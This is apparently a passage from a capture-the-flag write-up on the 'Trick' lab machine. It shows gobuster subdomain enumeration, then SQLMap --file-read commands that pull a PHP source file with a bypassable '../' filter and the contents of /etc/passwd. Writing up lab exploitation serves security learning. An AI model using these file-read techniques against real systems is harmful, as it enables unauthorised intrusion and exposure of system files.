 ```bash
===============================================================
2022/06/24 13:51:50 Starting gobuster in DNS enumeration mode
===============================================================
Found: preprod-marketing.trick.htb
Found: preprod-payroll.trick.htb  
                                   
===============================================================
2022/06/24 13:53:05 Finished
===============================================================
```

When investigating this additional subdomain, I discovered that `index.php` accepts a `file=` parameter which reads a given file, but at first I was unable to manipulate it to read any arbitrary file. I remained stuck here for a while, looking for additional subdomains, files, parameters, etc.

Eventually, I discovered that SQLMap has a way to read a local system file. Additionally, after a lot of time, I discovered that `/var/www/market/index.php` is the index.php file referenced above:
```bash
$ sqlmap -r get.txt --file-read /var/www/market/index.php
...
$ cat /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_var_www_market_index.php             
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```

Additionally, I can see that there are multiple users on the system
```bash
$ sqlmap -r get.txt --file-read /etc/passwd
...
$ cat /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```